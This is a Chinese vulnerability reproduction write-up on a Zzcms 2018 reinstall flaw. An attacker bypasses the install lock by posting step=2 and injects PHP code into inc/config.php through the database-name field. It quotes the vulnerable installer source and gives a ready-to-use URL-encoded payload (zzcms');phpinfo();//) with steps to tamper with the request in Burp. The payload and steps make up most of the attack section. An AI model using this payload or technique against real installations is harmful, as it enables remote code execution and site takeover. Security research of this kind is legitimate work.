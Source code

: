 # Zzcms 2018 最新版重装getshell

> 原文：[https://www.zhihuifly.com/t/topic/3311](https://www.zhihuifly.com/t/topic/3311)

# Zzcms 2018 最新版重装getshell

## 一、漏洞简介

源码信息：Zzcms 2018

问题文件： \zzcms\install\index.php

漏洞类型：重装getshell

站点地址：http://www.zzcms.net/

## 二、漏洞影响

Zzcms2018

## 三、复现过程

### 0x01攻击分析

在文件\ zzcms \ install \ index.php文件的第9-10行中$ _POST使用了提取变量注册的方法进行变量的初始化。

```
if($_POST) extract($_POST, EXTR_SKIP);//把数组中的键名直接注册为了变量。就像把$_POST[ai]直接注册为了$ai。
if($_GET) extract($_GET, EXTR_SKIP);
$submit = isset($_POST['submit']) ? true : false;
$step = isset($_POST['step']) ? $_POST['step'] : 1; 
```

分析代码可以知道，setp为空的时候，初始化初始化的变量1，然后进入到step_1.php，有install.lock，就不能重装，所以我们这里直接POST step = 2绕过

```
<?php
switch($step) {
        case '1'://协议
                include 'step_'.$step.'.php';
        break;
        case '2'://环境
                $pass = true;
                $PHP_VERSION = PHP_VERSION;
                if(version_compare($PHP_VERSION, '4.3.0', '<')) {
                        $php_pass = $pass = false;
                } else {
                        $php_pass = true;
                }
                $PHP_MYSQL = '';
                if (extension_loaded('mysqli') || extension_loaded('mysql')) {
                        $PHP_MYSQL = '支持';
                        $mysql_pass = true;
                } else {
                        $PHP_MYSQL = '不支持';
                        $mysql_pass = $pass = false;
                }
        $PHP_GD = '';
        if(function_exists('imagejpeg')) $PHP_GD .= 'jpg';
        if(function_exists('imagegif')) $PHP_GD .= ' gif';
        if(function_exists('imagepng')) $PHP_GD .= ' png';
                if($PHP_GD) {
                        $gd_pass = true;
                } else {
                        $gd_pass = false;
                }
                $PHP_URL = @get_cfg_var("allow_url_fopen");//是否支持远程URL，采集有用
                $url_pass = $PHP_URL ? true : false;
                include 'step_'.$step.'.php';
        break;
        case '3'://查目录属性
                include 'step_'.$step.'.php';
        break;
        case '4'://建数据库
                include 'step_'.$step.'.php';
        break;
        case '5'://安装进度
                function dexit($msg) {
                        echo '<script>alert("'.$msg.'");window.history.back();</script>';
                        exit;
                }

```
 $conn=connect($db_host,$db_user,$db_pass,'',$db_port);
            if(!$conn) dexit('无法连接到数据库服务器，请检查配置');
            $db_name or dexit('请填写数据库名');
            if(!select_db($db_name)) {
                    if(!query("CREATE DATABASE $db_name")) dexit('指定的数据库不存在\n\n系统尝试创建失败，请通过其他方式建立数据库');
            }
            $url=str_replace("'",'',$url);
            //保存配置文件
            $fp="../inc/config.php";
            $f = fopen($fp,'r');
            $str = fread($f,filesize($fp));
            fclose($f);
            $str=str_replace("define('sqlhost','".sqlhost."')","define('sqlhost','$db_host')",$str) ;
            $str=str_replace("define('sqlport','".sqlport."')","define('sqlport','$db_port')",$str) ;
            $str=str_replace("define('sqldb','".sqldb."')","define('sqldb','$db_name')",$str) ;
            $str=str_replace("define('sqluser','".sqluser."')","define('sqluser','$db_user')",$str) ;
            $str=str_replace("define('sqlpwd','".sqlpwd."')","define('sqlpwd','$db_pass')",$str) ;
            $str=str_replace("define('siteurl','".siteurl."')","define('siteurl','$url')",$str) ;
            $str=str_replace("define('logourl','".logourl."')","define('logourl','$url/image/logo.png')",$str) ;
            $f=fopen($fp,"w+");//fopen()的其它开关请参看相关函数
            fputs($f,$str);//把替换后的内容写入文件
            fclose($f);
            //创建数据
            include 'step_'.$step.'.php';
            break;
    case '6'://安装成功
            include 'step_'.$step.'.php';
    break; 
``` `}` 
```

![image](img/d9b806c63142609cdc2c7ed422b3bb2f.png)

```
<?php
if(@$step==3){
$token = md5(uniqid(rand(), true));    
$_SESSION['token']= $token; 
?> 
```

step_3.php文件中有一个创建的令牌，后面创建数据库的时候验证，所以从步骤= 2，一步一步偶。

从上面的代码文中知道$ url = str_replace（“'”，“，$ url）; 把单引号替换为空了，然后的fputs写INC / config.php的配置文件中所以这里通过$ DB_NAME来写到配置文件。

### 0×02复漏洞现

在数据库配置页面，数据库名填写：

zzcms%27%29%3bphpinfo%28%29%3b%2f%2f 本机创建zzcms');phpinfo();//的数据库

![image](img/c25c1c0901d3e8ebfd7777d00017e639.png)

因为本地有JS验证，所以先把数据库名改成123，bp抓到包以后在修改成zzcms%27%29%3bphpinfo%28%29%3b%2f%2f

![image](img/2b6d082c24895074205cd04feb044f02.png)

成功写入到配置文件

![image](img/94d164e53287a342c29350fc20fc350a.png)

![image](img/ddaae8f11f5fa37c814e77b6edd2b310.png)

![image](img/af8b7558d1336948d8a3358f0b663500.png)